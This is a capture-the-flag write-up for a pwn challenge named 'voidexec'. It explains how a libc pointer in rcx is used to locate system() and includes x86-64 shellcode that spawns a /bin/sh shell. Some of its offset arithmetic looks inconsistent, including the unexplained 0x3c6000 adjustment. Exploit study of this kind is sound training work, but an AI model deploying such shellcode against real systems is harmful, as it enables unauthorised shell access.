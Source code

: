 # voidexec

**Category:** Pwn  
**Challenge Name:** voidexec  
**Tools:** pwntools, GDB, Ghidra

---

## Goal

Inject shellcode that dynamically computes the address of `system("/bin/sh")` based on a known libc pointer (`rcx`) and execute it to spawn a shell.

---

## How I Solved It

### 1. Context and Entry Point

Running the binary immediately jumps to a memory region where the attacker can inject shellcode.

At this point:
- The register **`rcx` contains a pointer into libc**.
- The goal is to **compute the address of `system()` from `rcx` alone**, then call it with `"/bin/sh"`.

---

### 2. Reconstructing the libc base

From debugging locally:
- `rcx = 0x7ffff7d1e8bb`
- Actual base of libc = `0x7ffff7fc6000`

So the offset from `rcx` to the base is:

```python
offset_to_base = base_libc_local - rcx_value
```

This gives us a way to calculate the base address at runtime from rcx.

### 3. Calculating system()

We know system()'s offset from the base using libc.symbols["system"].

So, the shellcode does:
```asm
add rcx, offset_to_base      ; rcx = libc base
add rcx, offset_system       ; rcx = address of system()
sub rcx, 0x3c6000            ; adjust for PIE if needed (optional patch)
xor rax, rax
mov rax, rcx                 ; put system() in rax

; Push "/bin/sh" string to the stack
mov rdx, 0x68732f6e69622f
push rdx
mov rdi, rsp                 ; rdi = "/bin/sh"
xor rsi, rsi
xor rdx, rdx
call rax                     ; call system("/bin/sh")
```

### 4. Injecting the payload

We send the assembled shellcode directly to the process input:
```python
p.send(shellcode)
```

Once injected, the shellcode computes the system address at runtime and spawns a shell.

---

You can find the full exploit script in [`main.py`](./main.py).
